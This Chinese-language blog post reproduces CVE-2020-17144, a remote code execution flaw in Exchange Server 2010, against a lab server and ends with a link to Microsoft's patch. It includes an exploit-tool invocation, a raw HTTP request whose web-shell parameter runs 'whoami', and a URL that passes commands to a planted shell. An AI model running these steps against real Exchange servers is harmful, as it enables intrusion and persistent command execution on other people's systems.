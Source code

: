 **目录**

[漏洞背景](#t0 "漏洞背景")

[漏洞影响版本](#t1 "漏洞影响版本")

[漏洞复现](#t2 "漏洞复现")

[exp1](#t3 "exp1")

[exp2](#t4 "exp2")

[漏洞修复](#t5 "漏洞修复")

* * *

漏洞背景
----

在微软最新发布的12月安全更新中公布了一个存在于 Microsoft Exchange Server 2010中的远程代码执行漏洞（CVE-2020-17144），官方定级 Important。该漏洞是由程序未正确校验cmdlet参数引起，经过身份验证的攻击者利用该漏洞可实现远程代码执行。该漏洞和 CVE-2020-0688 类似，也需要登录后才能利用，不过在利用时无需明文密码，只要具备 NTHash 即可。除了常规邮件服务与 OWA外，EWS接口也提供了利用所需的方法，漏洞的功能点本身还具备持久化功能。

漏洞影响版本
------

*   Microsoft Exchange Server 2010 Service Pack 3 Update Rollup 31

漏洞复现
----

### exp1

```
CVE-2020-17144.exe 10.211.55.7 test P@ss1234
```


![](https://img-blog.csdnimg.cn/img_convert/157b54151e606bb7bc005e18796b9e69.png)

![](https://img-blog.csdnimg.cn/img_convert/2bf6b91da5337a12b141d155a5e3ecf5.png)

![](https://img-blog.csdnimg.cn/img_convert/3e903b7cc71439a9f4e95052eb601fb3.png)

```
POST /autodiscover/Services.aspx HTTP/1.1
Host: 10.211.55.7
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 11\_2\_1) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.82 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,\*/\*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Content-Type: application/x-www-form-urlencoded
Content-Length: 93

Ladon=Response.Write(new ActiveXObject("WScript.Shell").exec("whoami").StdOut.ReadAll());
```


![](https://img-blog.csdnimg.cn/img_convert/43a916262dd9c7999e3f4fd3f3afde1a.png)

![](https://img-blog.csdnimg.cn/img_convert/acf04851a0ca005bbb835da8055e6427.png)

也可以用蚁剑直接连接

![](https://img-blog.csdnimg.cn/img_convert/4de968faf9e9298d4c53423ad1fcf0a3.png)

这里注意其他设置需要忽略https证书

![](https://img-blog.csdnimg.cn/img_convert/8a86b32887205704ba035d5a46e915d1.png)

![](https://img-blog.csdnimg.cn/img_convert/18276c6d66e4b716b487dd39bfa3f048.png)

### exp2

![](https://img-blog.csdnimg.cn/img_convert/5fc3a4a04189adc1ed7b916e7ab634bf.png)

```
http://10.211.55.7/ews/soap/?pass=whoami
```


![](https://img-blog.csdnimg.cn/img_convert/28cd8e1586e721435b6a983930979fc7.png)

漏洞修复
----

下载补丁更新：[Security Update Guide - Microsoft Security Response Center](https://msrc.microsoft.com/update-guide/en-US/vulnerability/CVE-2020-17144 "Security Update Guide - Microsoft Security Response Center")

  如果想跟我一起讨论的话，就快加入我的知识星球吧。星球里有一千多位同样爱好安全技术的小伙伴一起交流！

![](https://img-blog.csdnimg.cn/1219ed79e9ed449d85d27b732cda5ea6.jpg)

相关文章：[从 CVE-2020-17144 看实战环境的漏洞武器化](https://mp.weixin.qq.com/s?__biz=MzI2NDk0MTM5MQ==&mid=2247483712&idx=1&sn=0b2cc3c9692f5c58a4eeb246d4b392fc&chksm=eaa5bb60ddd23276baf4cfd3fc59ca847c28f350c65ef98a17d49bc9944d653fad95dec4fd14&mpshare=1&scene=1&srcid=1209jtbQLVJIgr3VT0Ut1TM9&sharer_sharetime=1607483575995&sharer_shareid=dc9cecc79ba34e4bbb700a43a16153fd#rd "从 CVE-2020-17144 看实战环境的漏洞武器化")